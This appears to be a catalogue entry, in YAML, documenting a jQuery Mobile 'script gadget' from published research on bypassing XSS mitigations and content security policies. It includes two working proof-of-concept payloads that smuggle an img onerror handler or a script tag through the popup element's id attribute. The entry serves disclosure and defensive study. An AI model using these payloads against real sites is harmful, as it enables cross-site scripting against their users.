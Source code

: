 ```yaml
---
description: jQuery Mobile is a unified, HTML5-based user interface system for all popular mobile device platforms, built on the rock-solid jQuery and jQuery UI foundation. Its lightweight code is built with progressive enhancement, and has a flexible, easily themeable design.
github: jquery-archive/jquery-mobile
gadgets:
  Latest:
    authors:
      - twitter:slekies
      - twitter:kkotowicz
      - twitter:sirdarckcat
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - data-attr
      - unsafe-eval-csp
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: |
          The [jQuery Mobile](https://github.com/jquery/jquery-mobile) takes the `data-role="popup"` attribute and takes content of the `id` attribute to insert it into the DOM using `innerHTML`.

          *Because `history.replaceState` doesn't work in an `srcdoc` iframe, the preview isn't available.*
        code: |
          <script nonce="secret" src="https://code.jquery.com/jquery-1.11.1.min.js"></script>
          <script nonce="secret" src="https://code.jquery.com/mobile/1.4.5/jquery.mobile-1.4.5.js"></script>

          <!-- user input -->
          <x data-role="popup" id="--><img src=x onerror=alert()>"></x>
        preview: false
      - description: It is possible to execute JavaScript code directly by injecting a `<script>` tag. Internally, jQuery uses the [domManip](https://github.com/jquery/jquery/blob/b668be0fdc0d369e779840ef57033ea3fe040cb7/src/manipulation/domManip.js#L24) function to handle nodes, which evaluates the content of `<script>` tags (this one won't works without).
        code: |
          <script nonce="secret" src="https://code.jquery.com/jquery-1.11.1.min.js"></script>
          <script nonce="secret" src="https://code.jquery.com/mobile/1.4.5/jquery.mobile-1.4.5.js"></script>

          <!-- user input -->
          <x data-role="popup" id="-->&lt;script&gt;alert(1)&lt;/script&gt;"></x>
        preview: false
    links:
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/ue/jquerymobile.php
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/ue/jquerymobile_exploit.php
      - http://sebastian-lekies.de/slides/appsec2017.pdf
      - https://acmccs.github.io/papers/p1709-lekiesA.pdf
      - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
---
```

